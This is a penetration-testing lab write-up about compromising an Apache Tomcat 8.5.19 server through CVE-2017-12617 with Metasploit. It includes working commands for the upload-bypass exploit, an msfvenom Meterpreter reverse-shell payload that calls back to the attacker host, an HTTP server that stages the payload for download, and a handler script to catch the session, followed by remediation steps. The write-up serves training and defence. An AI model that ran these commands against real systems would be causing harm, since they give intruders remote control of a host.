# Apache Tomcat

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (10.2.30.97) — Windows Server 2008 R2–2012, Apache Tomcat 8.5.19<br>
**Attacker:** 10.10.41.5 (Kali)<br>
**Flag:** `92d60a06d0ea2179c9a8c442c0bd0bc0`

## 1. Executive Summary

The target runs **Apache Tomcat 8.5.19** on 8080, vulnerable to the JSP upload bypass
(CVE-2017-12617). Metasploit's `tomcat_jsp_upload_bypass` module gives a Meterpreter session
and the flag. We then build a standalone msfvenom payload and a resource-script handler to
re-establish the session more durably.

## 2. Recon

```bash
ping -c 4 demo.ine.local
db_nmap -sV 10.2.30.97
services
```







Port 8080 runs **Apache Tomcat 8.5.19** (AJP on 8009).



## 3. Exploitation

```bash
use exploit/multi/http/tomcat_jsp_upload_bypass
set RHOSTS 10.2.30.97
set RPORT 8080
exploit
```



The flag is in `C:\`.

```
cat C:\flag.txt
# 92d60a06d0ea2179c9a8c442c0bd0bc0
```



## 4. Establishing a Durable Foothold

Backgrounding the session, then generating a standalone payload.



```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.41.5 LPORT=1234 -f exe > meterpreter.exe
```



Hosting it over HTTP and downloading it onto the target.

```bash
python3 -m http.server 80
```





Using a resource script to start the handler, then executing the payload.

```bash
# handler.rc
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.41.5
set LPORT 1234
run
```











## 5. Remediation Recommendations

1. **Patch Apache Tomcat** past 8.5.19 (CVE-2017-12617) and disable HTTP `PUT`/writable
   servlets (`readonly=true` on the default servlet).
2. **Restrict Tomcat Manager/AJP** and run the service with least privilege.
3. **Application allow-listing + EDR** to block dropped payloads (`meterpreter.exe`).
4. **Egress filtering** to stop reverse-shell callbacks.
